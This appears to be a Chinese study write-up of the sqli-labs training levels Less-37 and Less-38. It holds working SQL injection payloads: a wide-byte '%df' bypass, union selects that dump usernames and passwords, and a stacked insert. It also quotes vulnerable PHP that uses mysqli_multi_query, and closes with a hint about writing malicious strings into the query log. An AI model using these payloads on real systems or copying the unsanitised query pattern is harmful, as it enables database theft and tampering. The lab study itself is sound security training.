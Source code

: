 ## Less-37

我入


```sql
uname=1%df'%20or%201=1%23&passwd=1&submit=Submit
```


![72](/medias/sqli-labs/72.png)


🤯 转义的尽头是`%df`吗？


## Less-38 堆叠注入

老天奶，终于到下一个页面了，堆叠注入

::: tip 
oracle 不能使用堆叠注入，mysql、sqlserver、postgresql 都可以
:::


一直没有了解为什么有时候只能联合注入，有时候甚至可以对堆叠注入，学习下源码

之前的注入执行语句

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
```

这题的堆叠注入语句

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
```

相比，原来这里的`mysqli_multi_query`函数，可以执行多条sql语句，所以可以堆叠注入🤯

联合查询就好像就够用了，我拿堆叠注入有什么新姿势？

给站长留条数据☝🤓

```sql
?id=0' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database())%23
?id=0' union select 1,2,(select group_concat(id,username,password) from users)%23
?id=0';insert into users values(100,'imsb',22);%23
```

![75](/medias/sqli-labs/75.png)

堆叠注入是不是可以执行任意sql语句

打开日志记录，修改日志文件、目录，查询恶意字符串写入日志
